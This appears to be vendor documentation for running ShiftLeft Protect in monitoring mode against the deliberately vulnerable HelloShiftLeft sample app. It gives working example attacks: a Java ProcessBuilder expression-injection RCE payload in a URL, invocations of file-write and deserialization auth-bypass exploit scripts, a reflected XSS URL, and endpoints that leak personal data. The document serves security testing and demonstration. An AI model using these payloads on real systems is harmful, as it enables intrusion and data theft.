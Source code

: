 # Using ShiftLeft Protect in Monitoring Mode

You can use ShiftLeft Protect in monitoring mode with your IAST tool.

## Example of ShiftLeft Protect Monitoring

ShiftLeft Protect detects exploits and payload, also blocks and sanitizes, vulnerabilities. For example, vulnerabilities and exposures in the [HelloShiftLeft sample application](../../introduction/helloshiftleft.md) can be tested with API access patterns described below and through example scripts provided in the [exploits directory](https://github.com/ShiftLeftSecurity/HelloShiftLeft/tree/master/exploits). 

### Sensitive Data Leaks to Log

| URL	  | Purpose |
| ------------- | ------------- |
| http://<span></span>localhost:8081/customers/1 | Returns JSON representation of Customer resource based on Id (1) specified in URL |
| http://<span></span>localhost:8081/customers | Returns JSON representation of all available Customer resources |
| http://<span></span>localhost:8081/patients | Returns JSON representation of all available patients in record |
| http://<span></span>localhost:8081/account/1 | Returns JSON representation of Account based on Id (1) specified |
| http://<span></span>localhost:8081/account | Returns JSON representation of all available accounts and their details |
	
All the above requests leak sensitive medical and PII data to the logging service. In addition other endpoints such as `/saveSettings`, `/search/user`, `/admin/login` etc. are also available. Along with the list above, users can explore variations of `GET`, `POST` and `PUT` requests sent to these endpoints.

### Remote Code Execution

An RCE can be triggered through the `/search/user` endpoint by sending a `GET` HTTP request as follows:

http://<span></span>localhost:8081/search/user?foo=new java.lang.ProcessBuilder({'/bin/bash','-c','echo 3vilhax0r>/tmp/hacked'}).start()

This creates a file `/tmp/hacked` with the content `3vilhax0r`.

### Arbitrary File Write

The [filewriteexploit.py](https://github.com/ShiftLeftSecurity/HelloShiftLeft/blob/master/exploits/filewriteexploit.py) script can be executed as follows to trigger the arbritary file writing through the `/saveSettings` endpoint:

```
$ python2 filewriteexploit.py http://localhost:8081/saveSettings testfile 3vilhax0r
```

This creates a file named `testfile` with `3vilhax0r` as its contents.

### Authentication Bypass

The [exploit.py](https://github.com/ShiftLeftSecurity/helloshiftleft/blob/master/exploits/JavaSerializationExploit/src/main/java/exploit.py) script allows an authentication bypass by exposing a deserialization vulnerability which allows administrator access:

```
$ python2 exploit.py
```

This returns the following sensitive data:

```
Customer;Month;Volume
Netflix;January;200,000
Palo Alto;January;200,000
### XSS
```

A reflected XSS vulnerability exists in the application and can be triggered using the **hidden** `/debug` endpoint as 

```
http://<span></span>localhost:8081/debug?customerId=1&clientId=1&firstName=a&lastName=b&dateOfBirth=123&ssn=123&socialSecurityNum=1&tin=123&phoneNumber=5432alert(1)
```

The result is an alert and returns the Customer object data.
